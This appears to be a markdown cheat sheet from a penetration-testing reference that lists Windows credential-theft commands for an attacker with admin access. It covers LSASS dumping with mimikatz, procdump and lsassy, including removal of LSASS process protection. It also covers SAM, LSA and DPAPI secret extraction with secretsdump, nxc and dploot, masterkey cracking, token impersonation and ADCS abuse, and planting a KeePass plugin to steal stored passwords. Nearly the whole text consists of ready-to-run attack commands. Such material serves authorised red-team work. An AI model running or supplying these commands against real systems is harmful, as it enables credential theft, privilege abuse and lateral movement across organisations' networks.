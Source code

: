# Admin access

## Extract credentials from LSASS.exe
- LSASS as protected process
  - `PPLdump64.exe <lsass.exe|lsass_pid> lsass.dmp #before 2022-07-22 update`
  - `mimikatz "!+" "!processprotect /process:lsass.exe /remove" "privilege::debug" "token::elevate"  "sekurlsa::logonpasswords" "!processprotect  /process:lsass.exe" "!-"`
- Extract LSASS secrets  >>> User + Pass || NTLM || PassTheHash || Clear text move
  - `procdump.exe -accepteula -ma lsass.exe lsass.dmp`
  - `mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords"  "exit"`
  - `msf> load kiwi creds_all`
  - `nxc smb <ip_range> -u <user> -p <password> -M lsassy`
  - `lsassy -d <domain> -u <user> -p <password> <ip>`

## Extract credentials from SAM >>> NTLM || PassTheHash
- `nxc smb <ip_range> -u <user> -p <password> --sam`
- `msf> hashdump`
- `mimikatz "privilege::debug" "lsadump::sam" "exit"`
- `secretsdump.py <domain>/<user>:<password>@<ip>`
- `reg save HKLM\SAM <file>;  reg save HKLM\SYSTEM <file>`
  - `secretsdump.py -system SYSTEM -sam SAM LOCAL`
- `reg.py <domain>/<user>:<password>@<ip> backup -o '\\<smb_ip>\share'`
  - `secretsdump.py -system SYSTEM -sam SAM LOCAL`
- `regsecrets.py <domain>/<user>:<password>@<ip>`

## Extract credentials from LSA >>> MsCache 2 || User + Pass
- `nxc smb <ip_range> -u <user> -p <password> --lsa`
- `mimikatz "privilege::debug" "lsadump::lsa" "exit"`
- `reg save HKLM\SECURITY <file>;  reg save HKLM\SYSTEM <file>`
  - `secretsdump.py -system SYSTEM -security SECURITY`
- `reg.py <domain>/<user>:<password>@<ip> backup -o '\\<smb_ip>\share'`

## Extract credentials from DPAPI
- DPAPI >>> User + Pass || PassTheHash || Clear text move
  - `nxc smb <ip_range> -u <user> -p <password> --dpapi [cookies] [nosystem]`
  - `donpapi <domain>/<user>:<password>@<target>`
  - `dpapidump.py <domain>/<user>:<password>@<target>`
  - get masterkey
    - `mimikatz "sekurlsa::dpapi"`
      - `dploot.py browser -d <domain> -u <user> -p '<password>' <ip> -mkfile <masterkeys_file>`
    - `lsassy -d <domain> -u <user> -p <password> <ip> -m rdrleakdiag -M masterkeys`
      - `dploot.py browser -d <domain> -u <user> -p '<password>' <ip> -mkfile <masterkeys_file>`
  - `SharpDPAPI.exe triage`

- Crack users masterkey >>> DPAPImk
  - copy c:\users\<user>\AppData\Roaming\Microsoft\Protect\<SID> 
    - `DPAPImk2john.py --preferred <prefered_file>`
      - `DPAPImk2john.py -c domain -mk <masterkey> -S <sid>`

## Impersonate
- Impersonate >>> ACL || User + Pass
  - `msf> use incognito impersonate_token <domain>\\<user>`
  - `nxc smb <ip> -u <localAdmin> -p <password> --loggedon-users`
    - `nxc smb <ip> -u <localAdmin> -p <password> -M schtask_as -o USER=<logged-on-user> CMD=<cmd-command>`
  - `irs.exe list`
    - `irs.exe exec -p <pid> -c <command>`

- Impersonate with adcs >>> NTLM || Pass The Hash / Ticket / Certificate
  - `masky - d <domain> -u <user>  (-p <password> || -k || -H <hash>) -ca <certificate authority> <ip>`

## Misc
- Find Users >>> Username
  - `smbmap.py --host-file ./computers.list -u <user> -p <password> -d <domain> -r 'C$\Users' --dir-only --no-write-check --no-update --no-color --csv users_directory.csv`
- Extract Keepass >>> User + Pass
  - `KeePwn.py plugin add -u '<user>' -p '<password>' -d '<domain>' -t <target> --plugin KeeFarceRebornPlugin.dll`
  - `KeePwn.py trigger add -u '<user>' -p '<password>' -d '<domain>' -t <target>`
